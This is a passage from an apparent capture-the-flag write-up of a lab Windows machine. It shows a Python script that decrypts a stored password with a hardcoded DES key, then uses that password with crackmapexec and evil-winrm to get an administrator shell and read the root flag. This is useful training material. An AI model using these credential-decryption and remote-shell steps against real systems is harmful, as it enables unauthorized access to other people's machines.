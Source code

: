     try:
            path = sys.argv[1]
    except:
            exit("Supply base64-encoded encrypted password as argv1")

    def decrypt(hash):
            hash = base64.b64decode(hash.encode('utf-8'))
            key = DesKey(b"7ly6UznJ")
            return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

    print(f'Decrypted Password: {decrypt(sys.argv[1])}')



It no longer needs the JSON parsing, just take the encpryted password
and decrypt it (I renamed the `decode` function to `decrypt`, but didn't
change anything else about it). It works:



    oxdf@parrot$ python3 decrypt.py "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
    Decrypted Password: kidvscat_admin_@123



### WinRM

With this password associated with the administrator username, my first
thought is to see if it can be used for WinRM.
[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) says yes:



    oxdf@parrot$ crackmapexec winrm 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
    WINRM       10.10.10.237    5985   NONE             [*] None (name:10.10.10.237) (domain:None)
    WINRM       10.10.10.237    5985   NONE             [*] http://10.10.10.237:5985/wsman
    WINRM       10.10.10.237    5985   NONE             [+] None\administrator:kidvscat_admin_@123 (Pwn3d!)



[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) works to get a
shell:



    oxdf@parrot$ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> 



And the flag:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    0e7896dd************************


